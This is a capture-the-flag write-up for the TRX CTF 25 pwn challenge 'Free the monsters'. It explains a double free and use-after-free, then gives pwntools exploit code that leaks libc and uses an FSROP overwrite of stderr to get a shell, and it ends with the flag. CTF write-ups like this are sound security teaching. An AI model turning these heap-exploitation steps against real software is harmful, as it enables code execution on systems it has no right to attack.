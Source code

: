 ```yaml
---
title: TRX CTF 25 - Free the monsters
date: '2025-02-26'
lastmod: '2025-02-26T15:00:00+02:00'
categories:
- writeup
- trxctf25
tags:
- pwn
- double free
- fastbin-dup
authors:
- Lorenzinco
---
```


![Preview text](/trxctf25/free_the_monsters/prompt.png)

The challenge's structure is wrapped in a quest embarking game, the player is required to select some quest from the quest list change his equipment and embark, at any given moment during the preparation it can also check it's statistics.

Playing around with the binary already reveals some vulnerabilities:

```
What do you want to do?
1. Equip weapon
2. Unequip weapon
> 1
Enter weapon name: hammer
Enter weapon attack: 10
Enter weapon defense: 10
1. Check player status
2. Select a quest
3. Embark on a quest
4. Change equipment
5. Exit
> 4
Select equipment to change:
1. Helmet
2. Chest
3. Gloves
4. Waist
5. Legs
6. Weapon
7. Jewel
8. Earing
9. Charm
10. Talisman
11. Kinsect
12. Palico
13. Palamute
> 6
What do you want to do?
1. Equip weapon
2. Unequip weapon
> 2
1. Check player status
2. Select a quest
3. Embark on a quest
4. Change equipment
5. Exit
> 1
Name: Lorenzinco
Level: 1
Weapon: hammer

Attack: 24881791099
Defense: 10668836035454024818
====================================
1. Check player status
2. Select a quest
3. Embark on a quest
4. Change equipment
5. Exit
>
```

All of the pointers inside the player's profile do not get set to `NULL` when freed. Given the heap blocks structure, in which the next pointer gets stored in the data section of the current chunk [(click here to find more details about this)](https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/), this gives already the ability to leak some heap addresses.

![Preview text](/trxctf25/free_the_monsters/free.png)

In the same part of the code we can also see that the code does not check whether that pointer was freed already before freeing it, this means we also got a **double free** to play around.

When allocating the chunks we also get to decide that to write in them, since the binary asks for the user to send the name, the attack and the defense of each equipment, conviniently stored inside the chunk.

Now, here comes the first problem: the chunk size. Each chunk is only `0x30` bytes wide. This means that if fill the tcache bins it fill fit right into the fast bin, not inside the unsorted one, which is where we want it to be.

To make a chunk fit into the unsorted bin we must therefore find a way to modify its size, this can be achieved by fast-bin duping, which is filling tcache, double freeing a chunk into a fastbin and change the next address to hit a chunk's metadata, by writing on it we're able to change the size of the chunk itself.

Keep in mind that due to the checks that get done when freeing, `prev_size` should be valid as well as `prev_inuse` flag which needs to be set to `1`.

The libc version is `2.41` therefore each heap pointer is encoded ( same for all libcs past 2.35 ).

```py
#FAKE AN UNSORTED BIN CHUNK TO LEAK LIBC
for i in range(1, 14):
    equip(i, p64(heap>>12)*4, heap>>12, 0)
for i in range(3, 10):
    unequip(i)
unequip(10)
unequip(11)
unequip(10)

for i in range(7):
    equip(3, b"A", 0, 0)
equip(3, b"A", (heap>>12)^(heap+0x2c0), 0)
for i in range(3):
    equip(3, p64(0)+p64(0x441), 0, 0)
for i in range(6):
    equip(3, b"B", 0, 0)

unequip(2)
view()
r.recvuntil(b"Attack: ")
r.recvuntil(b"Attack: ")
libc.address = int(r.recvline()) - 0x211b20 # MAIN ARENA
log.info(hex(libc.address))
```

Having retrieved the libc base address now we can take two intended paths:

-   The angry FS-Rop cool as fuck road
-   The boring and lame environ and onegadget path

##### Note: The environ leak requires to be expecially carefull with the pointers inside the heap, when duping a chunk and modifying its next we might break the tcache, preventing us to from doing it again.

That said, i chose to writeup the cool as fuck road which involves writing a fake file pointer on the heap and then overwriting that pointer into `__std_err` (or whatever file pointer, stderr is handy since is not used in the context of this binary).

*If you have no idea what this means i highly encourage you to read [this](https://blog.kylebot.net/2022/10/22/angry-FSROP/), it contains far more precise and useful information about fs exploits than what I could ever sum up in this writeup.*

As said, we are going to overwrite `std_err`:

```py
#OVERWRITE STDERR->CHAIN
for i in range(1, 12):
    equip(i, p64(heap>>12)*4, 0, 0)

for i in range(3, 10):
    unequip(i)
unequip(10)
unequip(11)
unequip(10)

for i in range(7):
    equip(3, b"\0", 0,0)

equip(3, b"A", (heap>>12)^(libc.sym._IO_2_1_stderr_+0x60), 0)
for i in range(3):
    equip(3, p8(3), 0, heap+0x7a0) # heap pointer to our custom file struct

for i in range(7):
    equip(3, b"\0", 0,0)
```

and write a file struct containing the vtable pointer modified, pwntools has this fancy function to do this automatically called `fsrop()` so we don't have to go through the hassle of filling the vtable offsets ourself, it's like a one gadget.

```py
#WRITE FAKE FP ON THE HEAP
payload = fsrop(heap+0x7a0)+b"\0"*0x200
# redistribute payload among fields
for i in range(7):
    equip(3, payload[16:16+0x20], u64(payload[:8]), u64(payload[8:16]))
    payload = payload[16+0x30:]
```

Note: this payload gets truncated each time a chunk metadata appears on the heap, so some fields of the file struct are goin to be broken and filled with garbage. They are not essential at all so we want to start writing the struct from an offset from which the important part (vtable pointer) is not overwritten with garbage, that is `0x10`.

![Preview text](/trxctf25/free_the_monsters/gdb_fs.png)

Done! All there's left to do is to trigger `_IO_flush_all` by exiting the binary and we popped a shell!

`TRX{wh0_th3_fuck_kn0w5_4b0u7_f457B1n5?!_153CA0}`
